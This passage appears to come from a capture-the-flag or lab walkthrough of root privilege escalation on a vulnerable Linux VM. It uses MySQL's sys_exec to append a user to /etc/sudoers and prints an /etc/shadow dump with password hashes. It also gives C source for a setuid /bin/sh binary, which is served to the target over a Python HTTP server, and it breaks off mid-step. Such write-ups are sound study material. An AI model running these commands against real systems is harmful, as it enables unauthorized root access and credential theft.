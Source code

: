 and in fact the output of:

`cat /tmp/out`

is:

`uid=0(root) gid=0(root)`

so that is a great achievement, ins't it?

Now we want to add john to the sudoers, plus get a full root shell.

### Add john to sudoers

select sys_exec('echo "john ALL=(ALL) ALL" >> /etc/sudoers');

Let's try it:

`sudo cat /etc/shadow`

and voilá:

```console
...
dhcp:*:15374:0:99999:7:::
syslog:*:15374:0:99999:7:::
klog:*:15374:0:99999:7:::
mysql:!:15374:0:99999:7:::
sshd:*:15374:0:99999:7:::
loneferret:$1$/x6RLO82$43aCgYCrK7p2KFwgYw9iU1:15375:0:99999:7:::
john:$1$H.GRhlY6$sKlytDrwFEhu5dULXItWw/:15374:0:99999:7:::
robert:$1$rQRWeUha$ftBrgVvcHYfFFFk6Ut6cM1:15374:0:99999:7:::
```

### Add full root shell


We use the code:

`int main(){
  char *name[2];
  name[0] = "/bin/sh";
  name[1] = 0x0;
  execve(name[0], name, 0x0); 
  exit(0);
 }
`

and we compile it into our kali linux. Since it is a basic c code, it should run pretty anywhere once compiled:

`gcc -m32 -o escalate2root escalate2root.c
`

We transfer the file to the victim phrough python HTTPServer:

`python -m SimpleHTTPServer 1050`

then we give him the setuid bit of root:
